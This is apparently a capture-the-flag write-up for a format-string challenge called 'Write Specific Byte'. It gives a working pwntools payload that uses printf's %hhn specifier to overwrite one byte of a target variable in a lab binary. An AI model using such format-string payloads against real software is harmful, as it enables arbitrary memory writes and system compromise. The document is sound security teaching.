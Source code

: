 # Challenge `Write Specific Byte` Writeup

- Vulnerability: 
  - Format strings
- Where:
  - printf function
- Impact:
  - allows to write in arbitrary memory

## Steps to Reproduce

Sending the following format string
```
"AAAA.%08x.%08x.%08x.%08x.%08x.%08x.%08x"
```
we can verify that the 7th register is filled with `41414141` (the value of `AAAA`) which tells us that we control the 7th register.

To get the address of the `target` variable we use:
```py
elf = ELF("04_match_value")
target_address = elf.symbols['target']
```

This time, we must write to the most significant byte of the target variable. Knowing that the address of the target variable points to the least significant byte, we can write the address of the target variable plus 3 to the 7th register and then use the `%n` specifier to write any value.

```py
io = connect(HOST, PORT)
payload = p32(target_address + 3) + b"%254x%7$hhn"
io.sendline(payload)
```

## Implementation

Implementation [here](write-specific-byte.py).